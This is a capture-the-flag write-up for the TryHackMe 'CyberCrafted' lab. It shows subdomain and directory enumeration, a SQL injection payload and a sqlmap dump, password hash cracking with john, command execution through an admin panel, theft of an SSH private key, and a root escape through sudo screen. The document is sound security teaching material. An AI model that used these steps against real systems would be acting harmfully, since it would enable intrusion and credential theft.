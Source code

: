 ```yaml
---
title: "TryHackMe - CyberCrafted"
author: Nasrallah
description: ""
date: 2022-12-01 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, subdomain, sudo]
img_path: /assets/img/tryhackme/cybercrafted
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [CyberCrafted](https://tryhackme.com/room/cybercrafted) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -p-: Scan all ports.

```terminal
Nmap scan report for 10.10.48.79 (10.10.48.79)
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3736ceb9ac728ad7a6b78e45d0ce3c00 (RSA)
|   256 e9e7338a77282cd48c6d8a2ce7889530 (ECDSA)
|_  256 76a2b1cf1b3dce6c60f563243eef70d8 (ED25519)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://cybercrafted.thm/
|_http-server-header: Apache/2.4.29 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found tree open ports, 22 running OpenSSH, 80 running Apache web server and 25565 running a minecraft server.

### Web

As we can see from the nmap scan, when we navigate to the web page we get redirected to `cybercrafted.thm`, so let's add that domain to our /etc/hosts file and navigate to it.

![](1.png)

We see the welcome page of CyberCrafted, nothing really interesting so let's check the source code.

![](2.png)

We found a note stating that there are other subdomains.

### Ffuf

Let's scan for subdomains using the following command:

```bash
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cybercrafted.thm -H "Host: FUZZ.cybercrafted.thm" --fw 1
```

![](3.png)

We found two interesting subdomains, `admin` and `store`. Let's add them to /etc/hosts file and check them.

![](4.png)

On the admin subdomain, we find a login page, but on `store` we can't even access the index page.

### Gobuster

Let's run a directory/file scan on the store subdomain using the following command:

```bash
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://store.cybercrafted.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2022/10/29 03:57:30 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 287]
/.hta                 (Status: 403) [Size: 287]
/.hta.txt             (Status: 403) [Size: 287]
/.htaccess            (Status: 403) [Size: 287]
/.htaccess.txt        (Status: 403) [Size: 287]
/.htaccess.php        (Status: 403) [Size: 287]
/.hta.php             (Status: 403) [Size: 287]
/.htpasswd            (Status: 403) [Size: 287]
/.htpasswd.txt        (Status: 403) [Size: 287]
/.htpasswd.php        (Status: 403) [Size: 287]
/assets               (Status: 301) [Size: 333] [--> http://store.cybercrafted.thm/assets/]
/index.html           (Status: 403) [Size: 287]
/search.php           (Status: 200) [Size: 838]
/server-status        (Status: 403) [Size: 287]
===============================================================
```

We see that we can access a search page in `/search.php`.

![](5.png)

Searching for random things we get three empty columns.

![](6.png)

Let's test for SQL injection with this payload: `' or 1=1 -- -`

![](7.png)

Great! We managed to dump the hole table and confirm that this search function is vulnerable to injection.

## **Foothold**

### Sqlmap

Now let's run `sqlmap` on this vulnerable page and see what we can find.

```bash
sqlmap -u 'http://store.cybercrafted.thm/search.php' --form --dump --batch
```

![](8.png)

Great! We found a username and a hash.

### John

Let's crack the hash using `john`.

![](9.png)

We got the password, let's login in the admin page.

![](10.png)

We see a place where we can run commands on the system, let's test it by running `whoami`.

![](11.png)

Nice, we can run commands.

Checking different user on the /home directory, we find a user with a world readable ssh private key.

![](12.png)

Let's copy it to our machine and connect with it.

![](13.png)

We found out that the key is protected with a password, so we use `ssh2john` to get a hash of that password, then we crack the hash using `john`.


## **Privilege Escalation**

After we logged in successfully, we saw that we're part of a group called `minecraft`, so we look for directories and file that belong to that group using this command `find / -group minecraft 2>/dev/null` and we find a directory in /opt called minecraft. Let's check it out.

![](14.png)

We found a note stating that there is a new plugin which we managed to find in the plugins directory.

Checking the files of that plugin, we find some interesting stuff.

![](15.png)

We got the password of `cybercrafted`, let's switch to that user.

![](16.png)

Let's check our current privileges with `sudo -l`.

```bash
cybercrafted@cybercrafted:~$ sudo -l
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted

```

We can run `/usr/bin/screen -r cybercrafted` as root which would give us an in-game console where the admin can control the server, to escape that and get a root shell press `ctrl + a` `ctrl + c` which would create a new window accordin to this [page](https://www.pixelbeat.org/lkdb/screen.html).


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

